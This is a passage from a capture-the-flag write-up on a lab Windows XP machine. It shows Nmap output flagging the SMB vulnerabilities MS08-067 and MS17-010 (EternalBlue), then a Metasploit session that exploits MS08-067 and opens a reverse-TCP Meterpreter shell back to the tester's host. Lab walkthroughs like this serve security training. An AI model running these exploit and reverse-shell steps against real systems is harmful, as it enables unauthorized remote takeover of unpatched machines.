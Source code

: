 I've also come to discover that SMBv1 that this box is using is prone to several famous vulnerabilities such as EternalBlue and EternalRomance. Keeping that in mind, I've decided to run a Nmap script to check for potential CVE vulnerabilities. As it turns out, this box is vulnerable to ```CVE 2008-4250``` and ```CVE 2017-0143``` (Fun fact: CVE 2017-0143 is also known as an EternalBlue exploit that was associated with the famous WannaCry ransomware)

```bash
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: SMB: Failed to receive bytes: ERROR
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

### Exploitation 1 : CVE 2008-4250

For CVE 2008-4250, we will be using Metasploit to exploit the vulnerability (Can't seem to find any working exploit online :o). In my opinion, this exploit is a much easier way to obtain all the flags since we are granted access to the SMB server with full root privileges.

```bash
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.250
LHOST => 10.10.16.250
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.250:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.16.250:4444 -> 10.10.10.4:1028) at 2021-08-09 14:35:05 -0400
```